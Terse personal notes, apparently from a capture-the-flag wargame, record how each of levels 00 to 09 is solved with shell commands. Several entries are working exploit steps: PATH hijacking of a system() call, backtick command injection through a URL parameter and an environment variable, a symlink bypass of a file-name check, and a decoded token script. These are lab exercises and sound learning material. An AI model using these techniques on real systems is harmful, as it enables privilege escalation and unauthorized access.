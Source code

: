 # snow_cash
level00
cloudshark
john
dcode.fr 

level01 
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

docker pull kalilinux/kali-rolling
docker run -it kalilinux/kali-rolling'
john test.txt --show

level02 
chmod +r
scp -P 4242 level02@localhost:/home/user/level02/level02.pcap  /home/sgroinfr/kali_c/shared 
tshark -r level02.pcap -q -z follow,tcp,ascii,0

level03 

strace ./level03 | grep Exploit
[pid 2599] system("/usr/bin/env echo Exploit me"

The program is using system() to execute a command that uses /usr/bin/env to run echo. This is a potential vulnerability because it's using the PATH environment variable to find the echo command.

cd /tmp
echo '#!/bin/bash' > echo
echo 'getflag' >> echo
chmod +x echo

export PATH=/tmp:$PATH

./level03
 level04 
we try differet stuff
curl localhost:4747/?x="\`/bin/getflag\`"


level05 
vim /opt/openarenaserver/getflag.sh
#!/bin/bash
/bin/getflag > /tmp/flag05
 level 6
 echo '[x ${`getflag`}]' > /tmp/flag06
./level06 /tmp/flag06

level07 
strings ./level07 
LOGNAME
/bin/echo %s 
;*2$" what is that  
export LOGNAME="\`getflag\`"

level08 

%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
;*2$"


ln -s $(realpath token) /tmp/symlink
./level08 /tmp/symlink

level9

UWVS
[^_]
You should not reverse this
LD_PRELOAD
Injection Linked lib detected exit..
/etc/ld.so.preload

creat scripte in tmp 

#!/usr/bin/python
import sys

# Read the token file content
content = open("/home/user/level09/token").readline()

# Iterate over the characters in the content
for i, c in enumerate(content):
    try:
        # Manipulate and print the character based on the loop index
        sys.stdout.write(chr(ord(c) - i))
    except Exception as e:
        # Handle specific exceptions if necessary
        pass

# Print a newline at the end
print()
